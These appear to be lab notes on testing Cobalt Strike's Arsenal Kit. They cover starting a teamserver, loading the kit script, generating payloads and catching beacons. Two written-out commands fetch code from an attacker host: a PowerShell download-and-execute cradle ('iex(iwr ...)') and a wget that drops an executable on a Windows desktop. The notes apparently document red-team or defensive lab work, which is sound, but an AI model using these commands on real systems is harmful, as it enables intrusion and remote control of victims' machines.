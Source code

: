 starting `teamserver`
![[Pasted image 20250506192022.png]]
loading the newly built `arsenal_kit.cna` - in testing it is in `/home/kali/Desktop` but will be in `/opt/cobaltstrike/arsenal-kit/dist/` when testing is complete
![[Pasted image 20250506192250.png]]
restarting the teams server once the `arsenal_kit.cna` is loaded
![[Pasted image 20250506201404.png]]
once restarted setting up `listeners`
![[Pasted image 20250506201438.png]]
generating `payloads` and placing them in `/home/kali/malware`
![[Pasted image 20250506201649.png]]
starting `scripted web delivery` to test the resource kit, using this `payload` - `iex(iwr http://192.168.127.132/a -useb)`
![[Pasted image 20250506201958.png]]
was able to catch a `beacon` using the `resource kit`
![[Pasted image 20250506202028.png]]![[Pasted image 20250506202050.png]]
now going to pull over the file and write to disk to make sure `artifact kit` works 
hosting `file`
![[Pasted image 20250506202651.png]]
`wget http://192.168.127.132:80/artifacttest -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe"` - command to pull over
pulled over
![[Pasted image 20250506202900.png]]
caught the beacon
![[Pasted image 20250506202920.png]]